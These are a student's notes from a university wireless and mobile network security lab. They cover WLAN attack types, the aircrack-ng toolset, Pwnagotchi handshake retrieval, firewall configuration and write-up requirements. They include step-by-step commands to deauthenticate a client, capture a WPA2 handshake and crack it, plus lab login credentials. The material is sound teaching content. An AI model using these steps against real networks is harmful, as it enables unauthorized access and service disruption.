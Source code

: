 # Lab 01 - Wireless and Mobile Networks

- Interrupt connection between access point and mobile device, capture reconnect to crack password
- Used captured network traffic from Riccarton Mall and crack authentication dialogues

## WLAN Attack Taxonomy

Passive attacks:

- Traffic analysis
  - Packet size, type, fragmentation info etc.
  - APs periodically send out beacon frames
- Eavesdropping
  - Requires wireless cards with passive packet sniffing (and active packet injection for active attacks)

Active attacks:
- Unauthorized access
  - Masquerade as a legitimate user
  - Access to wireless components may give access to wired components
- Rogue access points (Evil-Twin attack)
  - Interrupt connection, then device automatically reconnects to strongest matching AP
- Man-in-the-middle attacks
  - ARP spoofing - spoof MAC of access point and victim to force all traffic to pass through attacker
- Session hijacking
  - Spoof MAC and force disconnect - in some architectures re-authentication not required
- Replay
  - Capture authentication packets, replay then later
- Denial of Service
  - Attacks against layer 1 (physical) or 2 (data link) cannot be stopped
  - NZ stock exchange attack: attacked DNS server

PSK (pre-shared key) used in labs: each node has string/passphrase that is combined with network SSID to generate unique encryption key for each client and session.

## Tools

Several tools available pre-installed in Kali-Linux

 - `airmon-ng`: set wireless adapter to monitor mode to sniff packets meant for other devices
 - `kismet`: wireless network detector, packet sniffer
 - `iwconfig`: check wireless adapter is in monitor mode
 - `airodump-ng`: capture packets and display access point properties (ethernet address, channel number, speed, etc.)
 - `aireplay-ng`: issue deauthentication packets and capture the automatic reconnection dialogue
 - `aircrack-ng`: decrypting keys captured by `aireplay-ng`
 - `airbase-ng`: establishing access point for evil-twin attack
 - `macchanger`: view/spoof MAC address

('ng' stands for 'next generation' - basically version 2)

Login:

- `cyberlab`: `$CyberLab!`
- `root`: `toor`

## WPA/WPA2 Password Cracking

- Kill DHCP server: `ps-eaf | grep dhc` then `kill -9 {process_id}`
- `iwconfig` to find interface name
- `airodump-ng {wireless_interface}`; scan for networks, determine channel number and MAC address (BSSID - *b*asic **s**ervice **s**et **id**entifier) of target AP
- `airmon-ng stop {wireless_interface}`
- `airmon-ng start {wireless_interface} {channel_number}` to enable monitor mode for a specific channel
- `iwconfig` to find the new monitoring network interface's name
- `airodump-ng -c {ap_channel} --bssid {ap_mac} -w {capture_file_path} {wireless_interface}`
  - Continue running the command
  - `BSSID` is the AP MAC, `STATION` is the victim's MAC
- `aireplay-ng -0 1 -a {ap_mac} -c {vicim_mac} {wireless_interface}`
  - Send 1 de-authentication packet (`-0 1` is short for `--deauth=1`)
    - The device will then automatically reconnect. `airodump-ng` will be able to capture the four-way handshake
      - PSK (pre-shared key) derived from passphrase. Both parties need to prove they hold the key without sending it over the wire
- (Optional) To see it working, go to Wireshark, select correct interface (Capture -> Options), filter using `eapol` (extensible authentication protocol over link layer)
- `aircrack-ng -w {path_to_dictionary} -b {victim_mac} {capture_file_path}`
  - Unzip gzip files: `gunzip {path}`
  - Cracks captured password

### Pwnagotchi

- Connect via USB
- `ifconfig -a`: ensure usb0 is being used as networking device
- `ifconfig usb0 10.0.0.1/24`: set IP of device
- `scp -r pi@10.0.0.2:/root/handshakes ~/handshakes`: copy files from Pwnagotchi to computer
  - Pwnagotchi contains PCAP files with format `{SSID name}_{BSSID}.pcap`

## Enterprise Security

- External interface: network that presents the security threat
- Trusted interface: private LAN/internal interface
- Optional interface: DMZ/mixed trust area. APs go here

Watchguard:

- All-in-one firewall + switch + wireless AP
- IP address of the Watchguard device: default gateway
- Add HTTP packet filter
  - Basically port filter: only allows tcp traffic in port 80
  - HTTP proxy allows packet contents to be inspected
  - Allow traffic From Any-Optional To Any-Trusted
    - *Initial* connection must be from outside to inside
- Set up wireless interface
  - Note IP and CIDR of interface 2
  - Create new bridge with IP and CIDR from above, optional security zone and DHCP enabled
  - Set interface 2 to bridge type, set bridge to the one made above
  - Enable wireless AP in bridge mode (using bridge from above)
  - At this point devices should be able to connect to the AP, and the firewall rule allows HTTP traffic from device to server connected to any trusted network
  - WPA2 Enterprise: can either set wireless network to use Firebox DB or RADIUS server (e.g. Active Directory) for authentication

## Write-up

- Explain importance of software security, brief example of experiments done in labs
- Own diagrams - no copying off internet/lab notes, or scans of hand-drawn diagrams
- References to supplement writing
- Observations: potential risks, areas of interest
- Some research and comments
- Target audience: write recommendations as if to a technical but not security focused manager
- ~2000 words


Structure:

- Title
- Author
- Abstract: purpose and findings
- Introduction:
  - Description of experiments, equipment, tools, techniques
  - Vulnerabilities demonstrated
  - Diagrams of equipment/system
- Experimental results:
  - Explanation of experiments, importance of results
  - A few screenshots and their explanations
  - Relate to cybersecurity disasters
- Conclusions: (in)adequacy of setup results
- Comments on prevalence of security issues in current systems, organizations
- References (optional)
